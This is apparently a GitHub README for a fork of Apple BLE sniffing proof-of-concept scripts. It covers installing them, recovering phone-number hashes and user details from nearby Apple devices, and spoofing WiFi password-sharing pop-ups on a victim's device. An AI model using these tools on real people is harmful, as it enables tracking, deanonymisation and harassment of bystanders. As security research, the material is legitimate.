# Novetta bleee

<p align="center">
  <img src="https://github.com/SegFaultPR/Novetta_bleee/blob/master/img/novetta-logo.png"  height="200">
</p>

## Disclaimer
These scripts are experimental PoCs that show what an attacker get from Apple devices if they sniff Bluetooth traffic.

***We have removed parts of the this code from the origional repo***

***This project is created only for educational purposes and cannot be used for law violation or personal gain.<br/>The author of this project is not responsible for any possible harm caused by the materials of this project***


## Requirements
To use these scripts you will need a Bluetooth adapter for sending `BLE` messages and WiFi card supporting active monitor mode with frame injection for communication using `AWDL` (AirDrop). We recommend the Atheros AR9280 chip (IEEE 802.11n) we used to develop and test this code.
We have tested these PoCs on **Kali Linux**


## Installation

```
# clone main repo
git clone https://github.com/SegFaultPR/Novetta_bleee.git && cd ./Novetta_bleee
# install dependencies
sudo apt update && sudo apt install -y bluez libpcap-dev libev-dev libnl-3-dev libnl-genl-3-dev libnl-route-3-dev cmake libbluetooth-dev
sudo pip3 install -r requirements.txt
# clone and install owl for AWDL interface
git clone https://github.com/seemoo-lab/owl.git && cd ./owl && git submodule update --init && mkdir build && cd build && cmake .. && make && sudo make install && cd ../..
```

## How to use

Before using the tool, check that your Bluetooth adapter is connected

```
hcitool dev
Devices:
    hci0    00:1A:7D:DA:71:13
```


### Script: [ble_read_state.py](https://github.com/SegFaultPR/Novetta_bleee.git/blob/master/ble_read_state.py)

This script sniffs `BLE` traffic and displays status messages from Apple devices.
Moreover, the tool detects requests for password sharing from Apple devices. In these packets, we can get first 3 bytes of sha256(phone_number) and could try to guess the original phone number using prepared tables with phone hash values.

![dev_status](img/dev_status.png)

```bash
python3 ble_read_state.py -h
usage: ble_read_state.py [-h] [-c] [-n] [-r] [-l] [-s] [-m] [-a] [-t TTL]

Apple bleee. Apple device sniffer
---chipik

optional arguments:
  -h, --help          show this help message and exit
  -c, --check_hash    Get phone number by hash
  -n, --check_phone   Get user info by phone number (TrueCaller/etc)
  -r, --check_region  Get phone number region info
  -l, --check_hlr     Get phone number info by HLR request (hlrlookup.com)
  -s, --ssid          Get SSID from requests
  -m, --message       Send iMessage to the victim
  -a, --airdrop       Get info from AWDL
  -t TTL, --ttl TTL   ttl
```

For monitoring you can just run the script without any parameters

```bash
sudo python3 ble_read_state.py
```

press `Ctrl+q` to exit

If you want to get phone numbers from a WiFi password request, you have to prepare the hashtable (please find scripts below), setup a web server and specify `base_url` inside this script and run it with  `-c` parameter

```bash
sudo python3 ble_read_state.py -с
```

### Script: [adv_wifi.py](https://github.com/hexway/apple_bleee/blob/master/adv_wifi.py)

This script sends `BLE` messages with WiFi password sharing request. This PoC shows that an attacker can trigger a pop up message on the target device if he/she knows any phone/email that exists on the victim's device

```bash
python3 adv_wifi.py -h
usage: adv_wifi.py [-h] [-p PHONE] [-e EMAIL] [-a APPLEID] -s SSID
                   [-i INTERVAL]

WiFi password sharing spoofing PoC
---chipik

optional arguments:
  -h, --help            show this help message and exit
  -p PHONE, --phone PHONE
                        Phone number (example: 39217XXX514)
  -e EMAIL, --email EMAIL
                        Email address (example: test@test.com)
  -a APPLEID, --appleid APPLEID
                        Email address (example: test@icloud.com)
  -s SSID, --ssid SSID  WiFi SSID (example: test)
  -i INTERVAL, --interval INTERVAL
                        Advertising interval
```

For a WiFi password request, we'll need to specify any contact (email/phone) that exists in a victim's contacts and the SSID of a WiFi network the victim knows

```bash
sudo python3 adv_wifi.py -e pr@hexway.io -s hexway
```


## Contacts

[https://hexway.io](https://hexway.io)<br>
[@_hexway](https://twitter.com/_hexway)
